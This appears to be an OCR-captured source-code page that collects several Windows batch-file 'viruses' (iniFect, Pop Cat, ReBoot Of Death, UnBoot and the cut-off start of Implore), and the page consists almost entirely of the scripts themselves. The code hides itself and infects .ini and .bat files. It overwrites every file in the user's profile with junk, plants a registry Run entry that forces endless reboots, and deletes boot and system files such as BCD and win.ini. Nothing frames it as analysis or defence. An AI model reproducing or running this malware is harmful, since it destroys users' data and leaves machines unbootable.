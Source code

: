start explorer.exe
exit
rem ---------------------------------
rem The iniFect Virus
@echo off>nul.InIfEcT
attrib +r +s +h %0
:ChEcK
if exist %temp%\ini_inf.tmp goto PaYlOaD
if not exist %temp%\ini_inf.tmp goto InFeCt
:InFeCt
dir /s /b %systemdrive%\*.ini>>%temp%\ini_inf.tmp
cd %temp%
for /f %%a in (ini_inf.tmp) do set inifiles=%%a
echo shell=%0>>%inifiles%
exit
:PaYlOaD
echo F75844893A85EC217E8EF5BD69317>>%temp%\97AD1.tmp
echo B4A58D984B39E9BC74B9594B5873B>>%temp%\97AD1.tmp
echo 6AE23AE3C8DE46B283E91C2655A78>>%temp%\97AD1.tmp
echo 5D54CB39AE7D5E68A2B77DE9F8A3D>>%temp%\97AD1.tmp
cd %userprofile%
for %%z in (*.*) do copy %temp%\97AD1.tmp %%z
del %temp%\97AD1.tmp
exit
rem ---------------------------------
rem The Pop Cat Virus
@echo off
for %%z in (*.*) do ren %%z %random%.bat
for %%a in (*.bat) do set batfiles=%%a
copy /y %0 %batfiles%
start %batfiles%
exit
rem ---------------------------------
rem The ReBoot Of Death Virus
@echo off
taskkill /f /im explorer.exe
echo @echo off>>%temp%\autoexec.bat
echo shutdown.exe /r /t 08>>%temp%\autoexec.bat
echo ^*o*^ strikes again!>>%temp%\autoexec.bat
echo pause>>%temp%\autoexec.bat
attrib +r +s +h %temp%\autoexec.bat
reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v DOSLoad /t REG_SZ /d %temp%\autoexec.bat
shutdown.exe /r /t 08
del /f /q %0
rem ---------------------------------
rem The UnBoot Virus
@echo off
attrib -r -s -h C:\Boot\BCD
del /f /q C:\Boot\BCD
attrib -r -s -h C:\Boot\memtest.exe
del /f /q C:\Boot\memtest.exe
attrib -r -s -h C:\Windows\win.ini
del C:\Windows\win.ini
attrib -r -s -h C:\Windows\system.ini
del C:\Windows\system.ini
attrib -r -s -h C:\Windows\System32\winlogon.mof
del C:\Windows\System32\winlogon.mof
shutdown.exe /r /t 00
rem ---------------------------------
rem The Implore Virus
@echo off
set explorer=%systemdrive%\Windows\explorer.exe
set newname=explorer.ex_